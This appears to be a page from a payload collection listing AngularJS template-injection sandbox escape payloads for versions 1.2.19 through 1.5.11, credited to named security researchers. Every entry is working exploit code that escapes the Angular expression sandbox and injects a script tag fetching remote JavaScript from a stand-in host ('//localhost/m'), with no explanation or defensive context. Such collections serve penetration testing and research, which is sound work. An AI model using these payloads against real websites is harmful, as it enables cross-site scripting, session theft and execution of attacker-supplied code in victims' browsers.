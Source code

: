 1.2.19 (FireFox) by Mathias Karlsson

```javascript
{{
    toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a",'eval("var _ = document.createElement(\'script\');
    _.src=\'//localhost/m\';
    document.getElementsByTagName(\'body\')[0].appendChild(_)")'].sort(toString.constructor);
}}
```

1.2.20 - 1.2.29 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.3.0 - 1.3.9 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),a')
}}
```

1.4.0 - 1.5.8 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

1.5.9 - 1.5.11 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;c.$apply=$apply;
    c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,eval(`var _=document.createElement(\\'script\\');_.src=\\'//localhost/m\\';document.body.appendChild(_);`)))+';astNode.argument={type:'Identifier',name:'foo'};");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
